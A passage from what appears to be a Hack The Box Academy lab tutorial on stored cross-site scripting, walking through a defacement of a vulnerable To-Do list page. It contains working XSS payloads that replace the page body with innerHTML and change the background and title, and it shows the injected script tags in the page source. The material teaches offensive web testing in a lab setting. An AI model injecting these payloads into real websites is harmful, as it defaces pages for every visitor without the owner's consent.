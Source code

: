 ```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"

```

As we can see, we can specify the `body` element with `document.getElementsByTagName('body')`, and by specifying `[0]`, we are selecting the first `body` element, which should change the entire text of the web page. We may also use `jQuery` to achieve the same thing. However, before sending our payload and making a permanent change, we should prepare our HTML code separately and then use `innerHTML` to set our HTML code to the page source.

For our exercise, we will borrow the HTML code from the main page of `Hack The Box Academy`:

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>

```

**Tip:** It would be wise to try running our HTML code locally to see how it looks and to ensure that it runs as expected, before we commit to it in our final payload.

We will minify the HTML code into a single line and add it to our previous XSS payload. The final payload should be as follows:

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>

```

Once we add our payload to the vulnerable `To-Do` list, we will see that our HTML code is now permanently part of the web page's source code and shows our message for anyone who visits the page:

![](https://academy.hackthebox.com/storage/modules/103/xss_defacing_change_text.jpg)

By using three XSS payloads, we were able to successfully deface our target web page. If we look at the source code of the web page, we will see the original source code still exists, and our injected payloads appear at the end:

```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>

```

This is because our injected JavaScript code changes the look of the page when it gets executed, which in this case, is at the end of the source code. If our injection was in an element in the middle of the source code, then other scripts or elements may get added after it, so we would have to account for them to get the final look we need.
